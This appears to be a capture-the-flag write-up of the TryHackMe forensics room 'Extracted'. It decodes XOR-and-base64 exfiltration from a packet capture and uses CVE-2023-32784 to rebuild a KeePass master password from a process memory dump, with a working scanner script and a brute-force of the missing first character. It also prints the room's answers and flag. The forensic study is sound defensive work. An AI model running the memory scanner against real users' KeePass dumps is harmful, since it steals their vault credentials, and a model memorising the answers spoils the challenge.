

| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Extracted ||

Extracted is a medium standalone DFIR challenge, and the tagline ("We need your help!") undersells it. There is no box to exploit. You get a single 390 MB `traffic.pcapng` and have to reconstruct what a workstation shipped out to an attacker, then prove it by reading the stolen secret. The twist is that nothing interesting is in the clear: the exfiltrated files were XORed and base64 wrapped before they went on the wire, one of them is a 277 MB Windows memory dump, and the real prize is a KeePass master password that was never typed into anything you can see. This room is a lesson in CVE-2023-32784, the bug that lets you pull a KeePass master key out of process memory. If you like protocol-level forensics, it pairs with my [Block walkthrough](/post/thm-room-blockroom/), where an LSASS dump unlocks encrypted SMB3, and my [Directory walkthrough](/post/thm-room-directory/), where a cracked password decrypts Evil-WinRM traffic.

Everything below runs on my Mac with `tshark`, Python, and `pykeepass`. No VM, no AttackBox. The task zip (md5 `f9723177263da65ffdac74ffbf8d06a4`) holds one file, and I analysed it in an isolated directory, not on my host desktop.

## Setup: one capture, three TCP streams

A quick look at the capture shows 53k frames over 147 seconds, almost all of it raw TCP "data", between two hosts. The workstation is `10.10.45.95` and the attacker is `10.10.94.106`.

```text
  tshark -r traffic.pcapng -q -z conv,tcp
  10.10.45.95:50357 <-> 10.10.94.106:1337   53314 frames  390 MB   (big exfil)
  10.10.45.95:50356 <-> 10.10.94.106:1339      11 frames   12 kB   (HTTP: script)
  10.10.45.95:50358 <-> 10.10.94.106:1338       9 frames    3 kB   (small exfil)
```

Only two frames are HTTP, and they are the whole story: the workstation did a `GET` on port 1339 for a PowerShell script, and the server answered with `200`.

```bash
  tshark -r traffic.pcapng -Y http -T fields -e http.request.full_uri -e http.user_agent
  # http://10.10.94.106:1339/xxxmmdcclxxxiv.ps1
  # Mozilla/5.0 (Windows NT 10.0) WindowsPowerShell/5.1.17763.4720
```

## Task 1: read the dropped PowerShell script

The script body is served as hex in `http.file_data`, so decoding it gives the payload. The variable names are randomised base64-looking blobs (a cheap trick to dodge signatures), but once you ignore the noise the behaviour is plain.

```bash
  tshark -r traffic.pcapng -Y 'tcp.port==1339 && http.response' -T fields -e http.file_data \
    | xxd -r -p > payload.ps1
```

What the script does, step by step, is the map for the rest of the room:

- It downloads `procdump` if it is missing, then uses it to dump the **KeePass** process memory to a file on the Desktop (`-ma` is a full dump).
- It reads that dump, XORs every byte with the single-byte key **`0x41`**, base64 encodes the result, and streams it to the attacker on port **1337**. That is the 390 MB conversation.
- It repeats the same trick on `Database1337.kdbx` (the KeePass database file itself) with XOR key **`0x42`** and streams that to port **1338**. That is the tiny 3 kB conversation.

The destination is hardcoded as `"0xa0a5e6a"`, which is just `10.10.94.106` written as a hex integer (`0x0a 0x0a 0x5e 0x6a`). So the defender's job is simple to state: undo the XOR-plus-base64 wrapping on each stream, then work with the two files that fall out.

## Reconstruct the two exfiltrated files

Both streams are the attacker's base64 text sent client to server. The recipe to reverse each one is identical: pull the client-direction payload, unhex it to recover the base64 ASCII, base64 decode to get the XORed bytes, then XOR back with the key the script used.

```python
  # per stream: 1=port 1337 (dump, key 0x41), 2=port 1338 (kdbx, key 0x42)
  import binascii, base64, re
  wire = binascii.unhexlify(open('stream.hex').read().strip())   # base64 ASCII on the wire
  xored = base64.b64decode(re.sub(rb'\s', b'', wire))
  orig  = bytes(b ^ KEY for b in xored)                          # KEY = 0x41 or 0x42
```

Extracting each client stream with `tshark -Y 'tcp.stream==N && ip.src==10.10.45.95' -T fields -e tcp.payload` and running it through that gives two clean files:

```text
  file 1337.dmp           -> Mini DuMP crash report, 18 streams   (277 MB, magic MDMP)
  xxd Database1337.kdbx    -> 03 d9 a2 9a 67 fb 4b b5              (KeePass 2.x magic)
```

The `MDMP` magic confirms a valid Windows minidump, and `03d9a29a...` is the KeePass 2.x file signature. Both reconstructions are correct, which means the XOR keys and stream directions were right.



## Task 1 Q1: the initial part of the password (CVE-2023-32784)

Here is the real work. The master password is not in the `kdbx` and it is not on the wire. It is sitting in the KeePass process memory, and CVE-2023-32784 is why. KeePass 2.x built its secure entry box so that typing each character left a managed string in the heap. For the character at position `n`, memory keeps a string of `n-1` bullet characters (`U+25CF`, the masking dot) followed by the real character. Scan the dump for those `bullet-run + printable` patterns and you reconstruct the password one position at a time. Only the very first character leaves no such artifact, so everything except position 1 comes back in cleartext.

The detection is a few lines: walk the bytes, count runs of the UTF-16LE bullet (`CF 25`), and when a run is followed by one printable ASCII char (`XX 00`), record that char as the candidate for that position.

```python
  # scan 1337.dmp for KeePass master-key remnants
  data = open('1337.dmp', 'rb').read()
  groups, run, i = {}, 0, 0
  while i < len(data) - 1:
      if data[i] == 0xCF and data[i+1] == 0x25:        # bullet U+25CF, UTF-16LE
          run += 1; i += 2; continue
      if run and 0x20 <= data[i] <= 0x7E and data[i+1] == 0x00:
          groups.setdefault(run, []).append(chr(data[i]))
      run = 0; i += 1
```

Every position returns one candidate, ten times over (the process held ten copies), so the result is unambiguous:

```text
  pos  2..23:  N o W a Y I c a n F 0 r G e t T h i s 1 2 3
  recovered (first char unknown): ?NoWaYIcanF0rGetThis123
```

The initial part of the password, everything the memory gives up, is **`NoWaYIcanF0rGetThis123`** (Q1). That is 22 characters and matches the answer mask exactly.

## Task 1 Q2: find the missing character

CVE-2023-32784 never recovers the first character, so I have `?NoWaYIcanF0rGetThis123` and need the one byte in front. Rather than guess, I brute forced it against the reconstructed database: ninety-five printable candidates, each tried as the first character, is instant with `pykeepass`.

```python
  from pykeepass import PyKeePass
  import string
  for c in string.printable.strip():
      try:
          kp = PyKeePass('Database1337.kdbx', password=c + 'NoWaYIcanF0rGetThis123')
          print('first char:', repr(c)); break
      except Exception:
          pass
```

The database opens with first character **`?`**, making the full master password `?NoWaYIcanF0rGetThis123`. This step is marked "No answer needed", so it is just the bridge to the flag, but it is the whole reason the room gives you the `kdbx` separately: you cannot confirm the first character without it.

## Task 1 Q3: the flag

With the full master password, the database unlocks and the entries read out in the clear. Two are the stock KeePass samples; the third is the one that matters.

```text
  pykeepass -> Database1337.kdbx
  Entry "Sample Entry"     user=User Name    pass=Password
  Entry "Sample Entry #2"  user=Michael321   pass=12345
  Entry "You win!"         pass=xWjy8SqH2CDDw76ptmvP   notes=THM{...}
```

The flag lives in the notes of the "You win!" entry: **`THM{B3tt3r_Upd4t3_Y0ur_K33p455}`** (Q3), a nudge that KeePass patched this in 2.54. It fits the `***{******_******_****_*******}` mask dead on.



## Takeaways

Two durable lessons from this capture:

- Exfiltration obfuscation that is reversible is not protection, it is a speed bump. A single-byte XOR plus base64 looks like noise in Wireshark, but the key and the wrapping were both spelled out in the dropped script. Always recover the loader first: it hands you the exact transforms, destinations, and filenames, so reconstructing the stolen files becomes mechanical instead of guesswork. Treat the staging script as the index to the whole incident.
- A password manager is only as safe as the process holding it unlocked. CVE-2023-32784 turns a KeePass memory image into the master key minus one character, and one character is a trivial brute force once you also have the database. The defensive reading is blunt: a full process dump of an unlocked vault is game over, so the controls that matter are the ones that stop the dump (procdump and `-ma` on a sensitive process, unexpected child processes of PowerShell) long before the key ever leaves RAM.

Room solved 100%: 1 task, 3 answers.
